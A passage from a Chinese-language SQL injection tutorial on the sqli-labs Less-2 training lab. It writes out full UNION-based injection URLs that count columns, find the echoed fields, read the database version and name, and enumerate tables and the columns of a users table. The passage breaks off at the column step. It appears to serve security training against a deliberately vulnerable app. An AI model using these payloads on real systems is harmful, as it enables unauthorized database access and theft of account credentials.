 #### 2.6.1.2.**猜解列名数量**

通过猜解列名数量判断存在多少列，通过列的数量结合union select进行联合查询。

通过不断的测试，当输入4的时候页面出现报错，那么就可以判断该页面的数据库存在3列。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=1 order by 4--+

![img](https://s2.loli.net/2023/03/12/nqMehE1bPcWTAlR.jpg) 

#### 2.6.1.3.**判断回显位**

通过上面获取的列数量，对其进行联合查询。

Union select后面的1,2,3是通过上面获取的列的数量来进行添加的，若获取列的数量是4，那么就是union select 1,2,3,4。

同时在id=1的前面需要添加减号，使其不成立执行后面的语句，也就是?id=-1 union select 1,2,3--+

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,2,3--+

<img src="https://s2.loli.net/2023/03/12/gqBwOh58zlCPMk3.jpg" alt="img"  /> 

#### 2.6.1.4.**信息收集**

按照需要对数据进行查询，在这个初次尝试中只需要获取一个数据库当前版本信息以及数据库名就可以了。将参数输入之显示位进行查询，显示位就是上图能够显示123的地方，而上面只显示了2和3，那么是2和3就是显示位。

user()       数据库用户名 

database()     当前数据库名

version()      当前数据库版本信息

@@hostname    服务器主机名

@@basedir     数据库安装路径

@@version_compile_os   操作系统

通过获取得知数据库版本：5.5.53，数据名：security。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,database(),version()--+

![img](https://s2.loli.net/2023/03/12/PhwDuR9Qj51lmfZ.jpg) 

#### 2.6.1.5.**获取数据库下的表**

通过上述获取到的数据库版本是>5.0的，那么我们根据知识点中提到的数据库版本>5.0会存在information_schema，根据这个方式对其进行获取数据库下的表的注入操作。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security"--+

![img](https://s2.loli.net/2023/03/12/mDphNRkMvuoP6B3.jpg) 

#### 2.6.1.6.**获取数据库表下的列**

从上面获取到的表有4个表，但是我们需要获取到的是数据库中的账号密码，通过上面4个表的名字进行判断，猜测用户数据存在users中。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users"--+
